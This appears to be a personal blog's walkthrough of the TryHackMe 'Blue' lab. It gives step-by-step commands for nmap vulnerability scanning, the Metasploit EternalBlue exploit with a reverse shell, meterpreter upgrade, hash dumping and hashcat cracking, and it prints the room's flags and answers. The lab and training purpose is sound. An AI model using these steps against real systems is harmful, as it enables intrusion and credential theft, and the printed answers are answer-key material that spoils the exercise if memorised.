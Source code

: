 ```yaml
---
layout: page
title: Blue
permalink: /Tutorials/TryHackMe/Blue/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>
I used this page to help learn more Nmap commands maybe you can to!
<br/><br/>
https://www.stationx.net/nmap-cheat-sheet/
<br/><br/>
Start the machine and the connect using your Open VPN
<br/><br/>
Run "nmap *IP of Active machine*" to scan 1000 common ports
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-Port Count.PNG">
<br/><br/>
We now have the first Flag!
<br/>
**"3"** is the number of open ports under 1000
<br/><br/>
Now we need to see what the machine is vulnerable to
<br/><br/>
lets run a quick command on those 3 ports
<br/><br/>
"nmap --script vuln -p *IP of Active machine* -v"
<br/><br/>
"--script vuln" will load in scripts to scan on the target IP/Ports
<br/>
"-p 135-445" will scan ports 135-445 with those vulnerability script
<br/>
"-v" increases the verbosity *adds more words* (you can use -vv for a greater effect)
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-MS17.PNG">
<br/><br/>
Now we have our final flag of task 1!
<br/><br/>
in our command we see **"ms17-010"** it even shows the disclosure date right below the red box
<br/><br/>
<br/><br/>
**TASK 2**
<br/><br/>
We will need to use Metasploit for this portion
<br/><br/>
Lets run "msfdb init" (MetaSploit Framework DataBase Initialize)
<br/><br/>
Now lets run "msfconsole"
<br/><br/>
Once we get our ASCII art we can run the next command
<br/><br/>
"search ms17-010"
<br/><br/>
This will show several options but since weknow we have a Windows machine we can try those first
<br/><br/>
"use 2" will choose the second choice
<br/><br/>
**"exploit/windows/smb/ms17_010_eternalblue"** is the answer for the full path of the code
<br/><br/>
Next up "Set RHOSTS *IP of Active machine*"
<br/><br/>
**"RHOSTS"** is the answer for the name of the value
<br/><br/>
We will also need to set the LHOSTS to tun0
<br/><br/>
"set LHOST tun0" due to using a vpn
<br/><br/>
"show options" will show all the required areas are now done
<br/><br/>
The room wants us to use "set payload windows/x64/shell/reverse_tcp" before we do the next step
<br/><br/>
all we have to do now is type "run"
<br/><br/>
No we are in! (You may need to press enter) 
<br/><br/>
**TASK 3**
<br/><br/>
Type "whoami" to see if we are now connected as "nt authority\system"
<br/><br/>
place this session in the background with "ctrl+Z"
<br/><br/>
now we need to search for shell_to_meterpreter
<br/><br/>
"search shell_to_meterpreter"
<br/><br/>
We now see the answer to a question!
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-1.PNG">
"**post/multi/manage/shell_to_meterpreter**"
<br/><br/>
Now lets use what we found
<br/><br/>
"use post/multi/manage/shell_to_meterpreter"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-2.PNG">
use "show options" and we see we need to change "**Session**"
<br/><br/>
now we need to set our session
<br/><br/>
use "sessions" to find your sessions #
<br/><br/>
"set session *Session #*"
<br/><br/>
once that is done type "sessions" and it should have new information under "Information"
<br/><br/>
type "session *session #*
<br/><br/>
now it should show "meterpreter" on the current line
<br/><br/>
try using "shell" and then "whoami" to see if we are system
<br/><br/>
press "ctrl+z" to get back to meterpreter
<br/><br/>
Now lets look at processes w/ "ps"
<br/><br/>
now we need to try and migrate to one of these processes
<br/><br/>
I used "migrate 2536" to go to svchost.exe but your masy be different
<br/><br/>
**TASK 4**
<br/><br/>
Now we get to play with hashes!
<br/><br/>
"hashdump" will give us 3 hashes
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-1.PNG">
"**Jon**" is the answer to 1 question of Task 4
<br/><br/>
if you google "windows password hash format" you will see they are either LM or NTLM
<br/><br/>
Lets try to crack all 3 with hashcat!
<br/><br/>
Lets save them as a document named "Bluehashes.txt"
<br/><br/>
you will need world lists for hashcat. I already had a "rockyou" list so I will use that
<br/><br/>
for hashcat we will use "sudo hashcat -a 0 -m 1000 Bluehashes.txt rockyou.wordlist --force --username --show > Hashed.txt"
<br/><br/>
-a is for the attack mode 0, -m 1000 is for the NTLM hash format, --force is for if you do not have a Intel OpenCL runtime, --username ignores the username, > Hashed.txt names a file with the output
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-2.PNG">
In that new file at the end of Jons line is "**alqfna22**"
<br/><br/>
**TASK 5**
<br/><br/>
Now we need to find flags
<br/><br/>
"Flag1? This flag can be found at the system root."
<br/><br/>
"ls C:\\ will list the root
<br/><br/>
we now see "flag1.txt"
<br/><br/>
lets cat it!
<br/><br/>
"cat flag1.txt"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 5-1.PNG">
"**flag{access_the_machine}**"
<br/><br/>
The second flag is where passwords are stored which would be "C:/windows/system32/config"
<br/><br/>
"cd C:/Windows/System32/Config"
<br/><br/>
"dir"
<br/><br/>
Will show us there is a "flag2.txt"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 5-2.PNG">
<br/>
"**flag{sam_database_elevated_access}**"
<br/>
We now have 2 of the 3 flags!
<br/><br/>
For the final flag we don't have much context so lets search instead
<br/><br/>
"search -f flag*.txt" should work
<br/><br/>
We now see a flag3.txt in Jons documents 
<br/>
<img src="/images/TryHackMe/Blue/Task 5-3.PNG">
<br/>
"**flag{admin_documents_can_be_valuable}**"
<br/><br/>
We have finally succeeded in the room!
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
